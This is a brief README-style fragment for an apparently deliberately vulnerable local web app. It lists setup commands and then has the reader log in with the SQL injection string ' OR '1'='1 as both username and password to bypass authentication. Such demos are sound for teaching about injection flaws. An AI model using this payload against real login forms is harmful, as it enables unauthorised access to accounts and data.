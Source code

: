 Working commands:
sudo apt install python3

python3 setup_dp.py
python3 app.py

Click on the localhost link
then input:
Username: ' OR '1'='1
Password: ' OR '1'='1
